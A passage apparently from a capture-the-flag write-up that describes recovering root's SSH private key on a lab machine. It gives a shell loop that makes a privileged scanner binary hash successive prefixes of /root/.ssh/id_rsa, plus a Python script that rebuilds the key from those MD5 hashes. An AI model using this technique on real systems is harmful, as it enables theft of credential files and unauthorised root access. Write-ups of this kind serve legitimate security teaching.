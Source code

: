 ```python

print(flag)
```

![](screenshots/18-root-dehashed.png)

Moreover, it was possible to obtain root's ssh key in a similar fashion.

```sh
for i in {1..5000}; do /opt/scanner/scanner -p -s 123456 -c /root/.ssh/id_rsa -l $i >> hashes.txt; done
```

Using now the following script:

```python
#!/usr/bin/env python3

import hashlib
import string
ascii_characters = string.printable

root_ssh_hashes = open("root-id-rsa.hashes").readlines()

flag = ""
for h in root_ssh_hashes:
	h = h.rstrip()
	for c in ascii_characters:
		check = flag.encode() + c.encode()
		if hashlib.md5(check).hexdigest() == h:
			flag += c
			break

print(flag)
```
